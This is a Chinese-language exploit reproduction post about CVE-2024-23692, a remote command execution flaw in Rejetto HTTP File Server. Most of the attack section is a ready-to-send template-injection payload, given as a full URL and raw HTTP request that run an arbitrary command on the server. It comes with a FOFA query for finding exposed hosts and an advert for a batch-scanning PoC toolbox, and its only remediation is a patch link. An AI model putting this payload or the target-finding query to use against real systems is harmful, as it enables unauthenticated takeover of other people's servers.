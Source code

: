 #  Rejetto HTTP File Server 存在远程命令执行漏洞CVE-2024-23692 附POC   
南风漏洞复现文库  南风漏洞复现文库   2024-06-13 20:51  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Rejetto HTTP File Server 简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
HFS是Rejetto公司的一款 HTTP 文件服务器。  
## 2.漏洞描述  
  
Rejetto HTTP File Server（Rejetto HFS）是Rejetto公司的一款 HTTP 文件服务器。Rejetto HTTP File Server 2.3m及之前版本存在安全漏洞，该漏洞源于存在模板注入漏洞，允许远程未经身份验证的攻击者通过发送特制的HTTP请求在受影响的系统上执行任意命令。  
  
CVE编号:CVE-2024-23692  
  
CNNVD编号:CNNVD-202405-5001  
  
CNVD编号:  
## 3.影响版本  
  
HFS  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bgm6icAKn94AEmyMJy86nNzTs1E8WBwEg7qmMxyuISzwrkPKLpSibYbU1sg9gZFTpr2d8jVRnDtoFQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
Rejetto HTTP File Server 存在远程命令执行漏洞  
## 4.fofa查询语句  
  
app="HFS"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/?n=%0A&cmd=ipconfig&search=%25xxx%25url%25:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.}  
  
漏洞数据包：  
```
GET /?n=%0A&cmd=ipconfig&search=%25xxx%25url%25:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.} HTTP/1.1
Host: xx.xxx.xx.xxx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate Connection: keep-alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bgm6icAKn94AEmyMJy86nNzua9vqYiaAMzFJWFs0D3sCLvcicg8WM5PZpARFf9agnfjMl4Rh2Y9M0GQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bgm6icAKn94AEmyMJy86nNzJBuo5oh7z5JYicXuEbJZml2RCq5957NNjlkJicQ0PqfA8sibM0u27BwkQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bgm6icAKn94AEmyMJy86nNzdkFZLESdxMEqmqsyee0KfY6hgvqx0CaHyOrHicuM9oqiaVJFBNkAfj1g/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bgm6icAKn94AEmyMJy86nNzO4g5MZaSOQOD29CV73cCTFsibLSyCxRLXlIZEibyKIrqaZAy3OH7WNibg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bgm6icAKn94AEmyMJy86nNzwibpHdxwMJA7few4wSX7qb8853AW06r5GmycDxBNypM8yiclzYGQvhhA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bgm6icAKn94AEmyMJy86nNzd3eictLMNEhq9X6ql46jhX20KrpP1NLrvD24SSmZZuwKrISqJXvc8mA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁 https://www.rejetto.com/hfs/?f=dl  
## 8.往期回顾  
  
  
[万户ezEIP企业管理系统success.aspx接口存在远程命令执行漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486539&idx=1&sn=5df6d631ad4cc7dc990e35b46f89fc84&chksm=974b814ca03c085a96463fc74ca0c66b1315b686f66f0f630f894c48ab70782c5e2536b34de2&scene=21#wechat_redirect)  
  
  
